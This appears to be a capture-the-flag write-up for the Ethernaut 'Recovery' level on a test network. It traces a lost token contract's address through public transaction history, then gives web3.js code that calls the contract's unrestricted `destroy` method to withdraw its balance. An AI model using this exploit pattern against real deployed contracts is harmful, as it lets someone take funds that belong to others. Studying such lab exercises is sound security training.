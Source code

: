 ## Finding the original transaction

The level gives direct access to the `Recovery` contract.

It has no storage or method inside to retrieve the contracts / tokens it created.

Still the blockchain history is public; for example the `Recovery` contract can be viewed on [Etherscan][etherscan-recovery].

There we can see that the contract was created by the player during the transaction [`0xd55122c4608de96ca63a0fea6da6624e434611ce4a9609deeea9c6a616b8a488`][etherscan-creation].

## Inspecting the transaction

From the outside, the transaction is from the player to the `Ethernaut` contract, there is no mention of any token contract.

To go further, a debugging tool like `Tenderly` can be used.
Upon [inspection of the transaction][tenderly-creation], the address of the token appears:

> `0xeb00eee422cc853db48ce422fe09721cb464b183`

## Extracting the funds

The method `destroy` has no restrictions on its caller.
It can be used to retrieve the funds:

```js
abi = '[{"inputs":[{"internalType":"string","name":"_name","type":"string"},{"internalType":"address","name":"_creator","type":"address"},{"internalType":"uint256","name":"_initialSupply","type":"uint256"}],"stateMutability":"nonpayable","type":"constructor"},{"inputs":[{"internalType":"address","name":"","type":"address"}],"name":"balances","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address payable","name":"_to","type":"address"}],"name":"destroy","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"name","outputs":[{"internalType":"string","name":"","type":"string"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"_to","type":"address"},{"internalType":"uint256","name":"_amount","type":"uint256"}],"name":"transfer","outputs":[],"stateMutability":"nonpayable","type":"function"},{"stateMutability":"payable","type":"receive"}]'
token = new web3.eth.Contract(JSON.parse(abi), '0xeb00eee422cc853db48ce422fe09721cb464b183');
token.methods.destroy(player).send({from: player}, function(e, d) {console.log(d);});
await getBalance('0xeb00eee422cc853db48ce422fe09721cb464b183')
// '0'
```

[etherscan-creation]: https://sepolia.etherscan.io/tx/0xd55122c4608de96ca63a0fea6da6624e434611ce4a9609deeea9c6a616b8a488
[etherscan-recovery]: https://sepolia.etherscan.io/address/0xE2688FE0c9488ce51D5216D5FAc9Ff5ABd5F54f8
[tenderly-creation]: https://dashboard.tenderly.co/tx/sepolia/0xd55122c4608de96ca63a0fea6da6624e434611ce4a9609deeea9c6a616b8a488?trace=0.0.1.0
